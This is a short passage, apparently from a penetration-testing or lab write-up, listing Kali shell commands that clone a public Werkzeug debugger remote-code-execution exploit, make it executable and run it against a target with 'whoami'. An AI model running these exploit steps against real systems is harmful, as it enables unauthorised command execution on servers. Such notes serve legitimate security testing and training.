https://github.com/its-arun/Werkzeug-Debug-RCE
```bash - kali
git clone https://github.com/its-arun/Werkzeug-Debug-RCE.git
```
```bash - kali
cd Werkzeug-Debug-RCE
```
```bash - kali
chmod +x werkzeug.py
```
```bash - kali
python2 werkzeug.py $TARGET whoami
```
